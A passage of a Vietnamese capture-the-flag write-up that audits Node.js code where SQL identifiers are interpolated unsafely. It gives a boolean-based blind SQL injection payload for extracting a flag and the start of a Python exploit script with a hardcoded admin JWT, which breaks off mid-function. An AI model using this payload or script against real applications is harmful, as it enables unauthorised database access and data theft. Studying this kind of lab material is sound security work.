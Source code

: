 Audit code ta thực hiện phân tích các câu query không được bind param:

```js
  findAll: async (filterField = null, keyword = null) => {
    const { clause, params } = filterHelper("msgs", filterField, keyword);

    const query = `
      SELECT msgs.id, msgs.msg, msgs.type, msgs.createdAt, users.username
      FROM msgs
      INNER JOIN users ON msgs.userId = users.id
      ${clause || ""}
      ORDER BY msgs.createdAt DESC
    `;
```

```js
function filterBy(table, filterBy, keyword, paramIndexStart = 1) {
  if (!filterBy || !keyword) {
    return { clause: "", params: [] };
  }

  const clause = ` WHERE ${table}."${filterBy}" LIKE $${paramIndexStart}`;
  const params = [`%${keyword}%`];

  return { clause, params };
}
```

Ta có thể nhận xét `keyword` được bind an toàn như một parameter. Nhưng `table` và `filterBy` được chèn trực tiếp vào câu SQL như các identifier. Ta có thể thực hiện payload với kĩ thuật boolean based:

`filterBy=id"+IS+NOT+NULL+AND+EXISTS(select+1+from+flags+where+ascii(substring(flag,1,1))<0)+AND+"msg&keyword=a`

full script:

```python
import re
import time
import html
import requests

BASE = "http://web1-79e4a3bc.p1.securinets.tn"
ADMIN_JWT = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTAyLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NTk1OTk0NTgsImV4cCI6MTc1OTYwMzA1OH0.Y0IuDxOkgSZyJAlFw872E_DbA6GEB5z-amUvrQ7-zH8"
SRV_COOKIE = None 

session = requests.Session()
session.headers.update({
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64)",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Origin": BASE,
    "Referer": f"{BASE}/admin/msgs",
})

def set_cookies():
    session.cookies.set("token", ADMIN_JWT, domain="web1-79e4a3bc.p1.securinets.tn", path="/")
    if SRV_COOKIE:
        session.cookies.set("SRV", SRV_COOKIE, domain="web1-79e4a3bc.p1.securinets.tn", path="/")

def get_csrf():
    r = session.get(f"{BASE}/admin/msgs", timeout=15)
    r.raise_for_status()
    m = re.search(r'name="_csrf"\s+value="([^"]+)"', r.text)
    if not m:
        j = session.get(f"{BASE}/csrf-token", timeout=15).json()
```
